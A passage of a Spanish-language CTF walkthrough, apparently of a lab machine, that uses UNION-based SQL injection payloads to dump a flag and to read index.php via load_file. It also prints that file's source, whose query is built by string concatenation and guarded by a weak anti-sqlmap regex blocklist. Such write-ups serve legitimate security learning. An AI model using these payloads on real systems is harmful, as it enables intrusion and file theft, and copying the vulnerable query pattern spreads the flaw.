 ```bash
Sorry, "one:" you are not eligible due to already qualifying.
```
Vemos que solo tenemos una Columna en la Tabla Name `flag` y Base de Datos `November`
Procedemos a listar la data para la columna enumerada `one`

```bash
player=admin' union select one from November.flag-- -
```

Obtenemos la `Data` para la Columna `one` en la Tabla `flag` y en la Base de Datos `November`
```bash
Sorry, "UHC{F1rst_5tep_2_Qualify}" you are not eligible due to already qualifying.
```

Encontramos la flag que nos piden la introducimos en la ruta `/challenge` y vemos que nos abren el el puerto SSH pero no tenemos ninguna usuario ni clave ni na de na para conectarnos.
```bash
Welcome Back!
Your IP Address has now been granted SSH Access.
```

Procedemos a intentar listar informacion tipo `Local File Inclusion` atraves de la `SQLI` 
```bash
player=admin' union select load_file("/var/www/html/index.php")-- -
```

Vemos que listamos el codigo fuente del Archivo  `index.php`

```bash
Sorry, <?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {

	$player = strtolower($_POST['player']);

	// SQLMap Killer
	$badwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
	foreach ($badwords as $badword) {
		if (preg_match( $badword, $player )) {
			echo 'Congratulations ' . $player . ' you may compete in this tournament!';
			die();
		}
	}

	$sql = "SELECT player FROM players WHERE player = '" . $player . "';";
	$result = mysqli_query($conn, $sql);
	$row = mysqli_fetch_array( $result, MYSQLI_ASSOC);
	if ($row) {
		echo 'Sorry, ' . $row['player'] . " you are not eligible due to already qualifying.";
	} else {
		echo 'Congratulations ' . $player . ' you may compete in this tournament!';
		echo '<br />';
		echo '<br />';
		echo 'Complete the challenge <a href="/challenge.php">here</a>';
	}
	exit;
  }
?>
```
